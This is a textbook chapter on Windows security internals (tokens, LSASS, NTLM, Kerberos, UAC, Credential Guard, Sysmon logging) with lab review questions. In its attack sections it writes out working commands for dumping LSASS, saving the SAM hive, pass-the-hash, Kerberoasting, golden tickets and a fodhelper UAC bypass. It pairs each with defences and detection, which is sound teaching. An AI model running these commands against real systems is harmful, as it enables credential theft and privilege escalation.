

# Chapter 10 — Windows Security Architecture In Depth

Windows is the most widely deployed desktop operating system on Earth, making it the primary target for malicious actors and thus the most studied platform for defensive security. The Windows security model has evolved dramatically from NT 3.1 (1993) through Windows 11, accumulating layers of sophisticated security mechanisms. Understanding this architecture is essential for both defenders building enterprise security and penetration testers assessing Windows environments.

---

## 10.1 Windows NT Security Model Foundations

### 10.1.1 Security Principals and SIDs

Every entity that can be authenticated in Windows — users, groups, computers, managed service accounts — is a **security principal** identified by a **Security Identifier (SID)**.

SID format: `S-revision-identifier-authority-subauthority-...`

```
S-1-5-21-3623811015-3361044348-30300820-1013
│ │ │    └─────────────────────────────────── domain/machine-specific subauthorities
│ │ └─ NT Authority (5)
│ └─ SID revision (1)
└─ "S" prefix
```

**Well-Known SIDs:**

| SID | Name | Description |
|-----|------|-------------|
| S-1-1-0 | Everyone | All users including anonymous |
| S-1-5-18 | LocalSystem (SYSTEM) | Most privileged OS account |
| S-1-5-19 | LocalService | Lower-privilege service account |
| S-1-5-20 | NetworkService | Network-accessible service |
| S-1-5-32-544 | Administrators | Local administrators group |
| S-1-5-32-545 | Users | Standard users group |

```powershell
# Query SIDs
whoami /user
whoami /groups
whoami /all    # full token information

# Translate SID to account name
(New-Object System.Security.Principal.SecurityIdentifier("S-1-5-18")).Translate(
    [System.Security.Principal.NTAccount])
```

### 10.1.2 Access Tokens

When a user logs on, Windows creates an **access token** that travels with every process the user spawns. The token contains:
- User SID
- Group SIDs
- Privileges (SeDebugPrivilege, SeImpersonatePrivilege, etc.)
- Integrity level
- Session ID
- Logon session ID

```powershell
# View current process token information
whoami /priv    # List token privileges
Get-Process | Where-Object {$_.Id -eq $PID} | Select-Object *

# Impersonate another token (requires SeImpersonatePrivilege)
# This is what tools like PrintSpoofer/JuicyPotato exploit
```

### 10.1.3 Security Descriptors

Every securable Windows object (files, registry keys, services, processes, mutexes) has a **Security Descriptor** containing:
- **Owner SID**: Who owns the object
- **DACL**: Discretionary ACL — who can access the object
- **SACL**: System ACL — which accesses get audited
- **Group SID**: Primary group (legacy, rarely relevant)

```powershell
# View security descriptor for a file
Get-Acl C:\Windows\System32\cmd.exe | Format-List *

# View SACL (audit rules)
Get-Acl -Audit C:\sensitive\log.txt

# Check effective permissions for a user
(Get-Acl C:\data\file.txt).Access | Where-Object {$_.IdentityReference -like "*analyst*"}
```

---

## 10.2 The Windows Security Subsystem

### 10.2.1 LSASS — The Crown Jewel

**LSASS.exe (Local Security Authority Subsystem Service)** is the most targeted process on Windows. It:
- Handles authentication (validates credentials against SAM or AD)
- Creates access tokens for authenticated sessions
- Manages security policies
- Writes to the security event log
- **Caches credentials in memory** — this is why it's targeted



> **Critical Warning:** Tools like Mimikatz can extract plaintext passwords, NTLM hashes, and Kerberos tickets from LSASS memory. Credential Guard (Section 10.5) is the primary modern defense.

```powershell
# Attack: dump LSASS memory (requires admin/SYSTEM)
# (For educational/authorized testing only)
# Method 1: Task Manager → LSASS → Create dump file
# Method 2: ProcDump
# procdump.exe -accepteula -ma lsass.exe lsass.dmp
# Method 3: comsvcs.dll
# rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump (Get-Process lsass).Id lsass.dmp full

# Defense: Enable LSASS Protected Process Light (PPL)
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name RunAsPPL -Value 1
```

### 10.2.2 SAM Database

The **Security Accounts Manager (SAM)** stores local user account hashes at:
`C:\Windows\System32\config\SAM`

The SAM file is locked by the OS while running, but can be extracted via:
- Volume Shadow Copy: `vssadmin list shadows`
- Registry export: `reg save HKLM\SAM sam.hive`

Modern Windows protects SAM with **Credential Guard** (Section 10.5) and disables LM hashes by default.

---

## 10.3 Windows Authentication In Depth

### 10.3.1 NTLM Authentication

**NTLM (NT LAN Manager)** is the legacy Windows authentication protocol, still widely deployed for backward compatibility.

**NT Hash**: `MD4(UTF-16LE(password))` — single iteration, fast to crack

```python
# NT Hash computation (Python — illustrative)
import hashlib
password = "Password123"
nt_hash = hashlib.new('md4', password.encode('utf-16le')).hexdigest()
# Result: 58a478135a93ac3bf058a5ea0e8fdb71
```

**NTLM Challenge-Response Protocol:**

```
Client                          Server
  │── NEGOTIATE_MESSAGE ──────────►│
  │◄── CHALLENGE_MESSAGE (nonce) ──│
  │── AUTHENTICATE_MESSAGE ────────►│
      (NT hash + nonce → response)
```

The server verifies by performing the same computation and comparing results.

**Pass-the-Hash (PtH)**: Instead of cracking the NT hash, an attacker can use it directly in the NTLM challenge-response:

```bash
# Pass-the-Hash with impacket (authorized testing only)
impacket-smbclient -hashes :58a478135a93ac3bf058a5ea0e8fdb71 DOMAIN/user@target
impacket-wmiexec -hashes :NTLM_HASH DOMAIN/administrator@192.168.1.100
impacket-psexec -hashes :NTLM_HASH DOMAIN/administrator@192.168.1.100
```

**NTLM Relay Attack**: NTLM authentication can be captured and relayed to another service without cracking:

```
Attacker machine runs responder.py (poisons LLMNR/NBT-NS)
Victim authenticates to attacker (thinking it's a file server)
Attacker relays the authentication to a real target (e.g., SMB or LDAP)
```

### 10.3.2 Kerberos Authentication in Windows AD

Kerberos replaces NTLM in Active Directory environments with mutual authentication and a ticket-based system.

**Key Exchange:**

```
1. AS-REQ:  Client → KDC: "I am alice, please authenticate me"
            (encrypted with alice's NT hash)

2. AS-REP:  KDC → Client: TGT (Ticket Granting Ticket)
            + session key (encrypted with alice's hash)
            TGT is encrypted with KRBTGT service hash

3. TGS-REQ: Client → KDC: "I need access to fileserver"
            (presents TGT)

4. TGS-REP: KDC → Client: Service Ticket for fileserver
            (encrypted with fileserver's service hash)

5. AP-REQ:  Client → Service: "Here's my ticket"
6. AP-REP:  Service → Client: "Authenticated"
```

### 10.3.3 Kerberos Attacks

**Kerberoasting**: Any authenticated domain user can request a service ticket for any service account (SPN). The ticket is encrypted with the service account's NT hash and can be cracked offline:

```powershell
# Enumerate SPNs and request tickets
setspn -T DOMAIN -Q */*
Get-ADUser -Filter * -Properties ServicePrincipalName | Where-Object {$_.ServicePrincipalName -ne $null}

# Request and extract tickets with Rubeus
Rubeus.exe kerberoast /format:hashcat /output:hashes.txt

# Crack with hashcat
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
```

**AS-REP Roasting**: For accounts with "Do not require Kerberos preauthentication" set, the KDC responds with an AS-REP encrypted with the account's hash — no authentication required:

```bash
impacket-GetNPUsers DOMAIN/ -no-pass -usersfile users.txt -format hashcat -outputfile asrep.txt
hashcat -m 18200 asrep.txt rockyou.txt
```

**Golden Ticket**: If an attacker obtains the **KRBTGT account's NT hash** (via DCSync or LSASS dump), they can forge TGTs for any user:

```powershell
# Requires: domain name, domain SID, KRBTGT hash
# Mimikatz Golden Ticket (educational reference)
# kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:HASH /ptt
```

A Golden Ticket grants persistence even if all user passwords are reset — unless the KRBTGT password is rotated twice.

**Silver Ticket**: Forge a service ticket using a service account's hash (doesn't require KRBTGT) — more stealthy than Golden Ticket.

---

## 10.4 User Account Control (UAC)

UAC separates standard user activities from administrative ones, even for members of the Administrators group. When an admin logs on, they receive **two tokens**: a filtered (Medium integrity) token for normal operations, and a full admin (High integrity) token used only when explicitly elevated.

### 10.4.1 UAC Bypass Techniques

Several Windows components auto-elevate (run at High integrity without prompting):

```powershell
# fodhelper.exe UAC bypass (Windows 10)
# fodhelper reads HKCU:\Software\Classes\ms-settings\shell\open\command
New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" `
  -Name "(default)" -Value "cmd.exe /c whoami > C:\Windows\Temp\output.txt"
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" `
  -Name "DelegateExecute" -Value ""
Start-Process "C:\Windows\System32\fodhelper.exe"
# Result: cmd.exe runs at High integrity without UAC prompt
```

Other bypass techniques: `eventvwr.exe` (registry hijack), `sdclt.exe`, CMSTP, DLL hijacking in auto-elevated processes.

**Defense**: Set UAC to "Always notify" (not default "Notify only for app changes"), prevent registry writes to HKCU for sensitive paths.

---

## 10.5 Advanced Windows Security Features

### 10.5.1 Windows Defender Credential Guard

**Credential Guard** uses Virtualization Based Security (VBS) / Hyper-V to isolate NTLM hashes and Kerberos tickets in a separate, hardware-protected virtual machine. Even LSASS running in the host OS cannot access the plaintext credentials.

```powershell
# Check Credential Guard status
Get-ComputerInfo | Select-Object *Guard*
(Get-WmiObject -Namespace "root/Microsoft/Windows/DeviceGuard" -Class Win32_DeviceGuard).SecurityServicesRunning
# 1 = Credential Guard running

# Enable via Group Policy:
# Computer Configuration → Administrative Templates →
# System → Device Guard → Turn On Virtualization Based Security
```

Requirements: UEFI 2.3.1+, Secure Boot, VT-x/AMD-V, TPM 2.0, 64-bit, Windows 10 Enterprise/Server 2016+.

### 10.5.2 Secure Boot and TPM

**Secure Boot** (UEFI feature): Only allows booting signed OS components. Prevents bootkit malware from persisting below the OS.

**TPM (Trusted Platform Module)**: Hardware chip that:
- Stores BitLocker encryption keys
- Performs Measured Boot (records each boot component's hash into PCRs)
- Detects tampering: if boot measurements don't match expected values, TPM refuses to release keys

**Measured Boot flow:**
```
UEFI firmware → measures → Bootloader → measures → Kernel → measures → Drivers
Each measurement stored in TPM PCR registers
Deviation from baseline = potential tampering detected
```

---

## 10.6 Windows Event Logging for Security

### 10.6.1 Key Security Event IDs

| Event ID | Category | Description |
|----------|----------|-------------|
| **4624** | Logon | Successful logon — includes logon type |
| **4625** | Logon | Failed logon — subject to brute force |
| **4634/4647** | Logon | Logoff / user-initiated logoff |
| **4648** | Logon | Logon using explicit credentials (runas) |
| **4672** | Logon | Special privileges assigned to new logon |
| **4688** | Process | New process created |
| **4697** | Service | Service installed in system |
| **4698/4702** | Task Scheduler | Scheduled task created/modified |
| **4720** | Account | User account created |
| **4740** | Account | Account locked out |
| **4756** | Group | Member added to security-enabled global group |
| **7045** | System | New service installed |
| **1102** | Audit Log | Audit log cleared (attacker covering tracks) |

### 10.6.2 Logon Types

| Type | Description | Attack Relevance |
|------|-------------|-----------------|
| 2 | Interactive (console) | Normal user logon |
| 3 | Network (SMB, WMI) | PtH, lateral movement |
| 4 | Batch (scheduled tasks) | Persistence mechanisms |
| 5 | Service | Service account logons |
| 10 | RemoteInteractive (RDP) | Remote access |
| 9 | NewCredentials (runas /netonly) | Explicit credential use |

```powershell
# Query security events
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4624} -MaxEvents 100 |
  Select-Object TimeCreated, @{N='User';E={$_.Properties[5].Value}},
    @{N='LogonType';E={$_.Properties[8].Value}},
    @{N='SourceIP';E={$_.Properties[18].Value}}

# Find failed logons
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4625} -MaxEvents 50 |
  Where-Object {$_.Properties[5].Value -ne ""}

# Find processes launched by specific user
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4688} |
  Where-Object {$_.Properties[1].Value -like "*\attacker"}
```

### 10.6.3 Sysmon for Enhanced Logging

**Sysmon (System Monitor)** by Sysinternals dramatically enhances Windows event logging:

```xml
<!-- Sysmon config snippet: log process creation with command lines -->
<Sysmon schemaversion="4.82">
  <EventFiltering>
    <RuleGroup name="Process Create" groupRelation="or">
      <ProcessCreate onmatch="exclude">
        <Image condition="is">C:\Windows\System32\conhost.exe</Image>
      </ProcessCreate>
    </RuleGroup>
    <NetworkConnect onmatch="include">
      <DestinationPort condition="is">4444</DestinationPort>
    </NetworkConnect>
  </EventFiltering>
</Sysmon>
```

Key Sysmon Event IDs:
- **1**: Process Create (includes command line, hashes)
- **3**: Network Connection
- **7**: Image Loaded (DLL loading — detects injection)
- **10**: Process Access (detects LSASS access = credential theft)
- **11**: File Created
- **13**: Registry Value Set

```powershell
# Install Sysmon with config
sysmon64.exe -accepteula -i sysmonconfig.xml

# Query Sysmon LSASS access events (Mimikatz detection)
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" |
  Where-Object {$_.Id -eq 10 -and $_.Message -like "*lsass*"}
```

---

## Key Terms

| Term | Definition |
|------|-----------|
| **SID** | Security Identifier — unique ID for every Windows security principal |
| **Access Token** | Per-process object containing user identity, groups, and privileges |
| **Security Descriptor** | Object metadata containing owner, DACL, and SACL |
| **DACL** | Discretionary ACL — controls object access |
| **SACL** | System ACL — controls object access auditing |
| **LSASS** | Local Security Authority Subsystem — authentication and credential store |
| **SAM** | Security Accounts Manager — local user hash database |
| **NT Hash** | MD4(UTF-16LE(password)) — Windows password hash format |
| **NTLM** | NT LAN Manager — Windows legacy challenge-response auth protocol |
| **Pass-the-Hash** | Authenticating with NT hash instead of plaintext password |
| **Kerberos** | Ticket-based mutual authentication protocol used in AD |
| **TGT** | Ticket Granting Ticket — Kerberos session credential |
| **Kerberoasting** | Offline cracking of Kerberos service tickets |
| **Golden Ticket** | Forged TGT using stolen KRBTGT hash — domain persistence |
| **KRBTGT** | Kerberos TGT service account — key target for Golden Tickets |
| **UAC** | User Account Control — integrity elevation mechanism |
| **Credential Guard** | VBS-based LSASS credential protection |
| **TPM** | Trusted Platform Module — hardware security chip |
| **Secure Boot** | UEFI feature ensuring only signed boot components load |
| **Sysmon** | Sysinternals tool providing enhanced process/network/file logging |

---

## Review Questions

1. **Conceptual:** Explain why LSASS is the highest-priority target for attackers on a Windows system. What specific credential material can be extracted from it, and what are the two primary defensive controls that protect LSASS?

2. **SID Analysis:** Given the SID `S-1-5-21-3623811015-3361044348-30300820-500`, identify what each component represents. What does RID 500 specifically indicate, and why is this account significant?

3. **NTLM Lab:** Set up a Windows VM and capture an NTLM authentication handshake using Responder on a Kali Linux VM (in an isolated lab environment). Identify the three messages in the exchange. Attempt to crack the captured NTLMv2 hash with hashcat and `rockyou.txt`. What does this demonstrate about password strength?

4. **Kerberoasting Lab:** In a lab Active Directory environment, identify service accounts with SPNs using `Get-ADUser`. Request their service tickets with Rubeus or `impacket-GetUserSPNs`. Attempt to crack the resulting Kerberos hashes. What password policy would prevent this attack?

5. **UAC Bypass Analysis:** Research the `fodhelper.exe` UAC bypass in depth. Explain which registry key it reads, why fodhelper is auto-elevated, and what specific Windows 10 version(s) are still vulnerable. How does setting UAC to "Always Notify" mitigate this?

6. **Event Log Analysis:** Given a Windows Security log export, write a PowerShell script to detect: (a) more than 5 failed logons (4625) from the same IP within 5 minutes, (b) any logon with type=3 using Domain Admin credentials, (c) any audit log cleared events (1102).

7. **Golden Ticket:** Explain the Golden Ticket attack: what credential is required, how it's obtained, and why it persists even after all user password resets. What is the recommended remediation procedure, and what makes it operationally disruptive?

8. **Credential Guard Lab:** On a Windows 10/11 Enterprise VM with TPM (or a nested VM with TPM), enable Credential Guard via Group Policy. Then attempt to extract credentials from LSASS using a Mimikatz test (in an isolated lab). Document what Mimikatz reports when Credential Guard is active vs. inactive.

9. **Sysmon Deployment:** Install Sysmon with SwiftOnSecurity's configuration on a Windows VM. Generate several suspicious events (run Mimikatz, make an outbound connection on port 4444, load a DLL). Write queries to detect each using Get-WinEvent filtering.

10. **Architecture Design:** You are designing security monitoring for a Windows domain. Specify: (a) which Event IDs to forward to your SIEM, (b) why you need Sysmon in addition to native logging, (c) what alert thresholds you would set for logon failures, (d) how you would detect lateral movement via NTLM relay.

---

## Further Reading

1. Russinovich, M., Solomon, D., & Ionescu, A. (2012). *Windows Internals, Part 1 & 2* (7th ed.). Microsoft Press. — Authoritative Windows architecture reference.
2. Metcalf, S. (2015). "Kerberos & Attacks 101." *ADSecurity.org*. https://adsecurity.org/?p=2293 — Essential Kerberos attack reference.
3. Delpy, B. (2014+). *Mimikatz Documentation*. https://github.com/gentilkiwi/mimikatz — Understanding how credential extraction works.
4. SwiftOnSecurity. (2023). *Sysmon Configuration*. https://github.com/SwiftOnSecurity/sysmon-config — Production-ready Sysmon baseline.
5. Microsoft Security. (2023). *Windows Security Baselines*. https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-security-configuration-framework/windows-security-baselines — Official hardening guide.
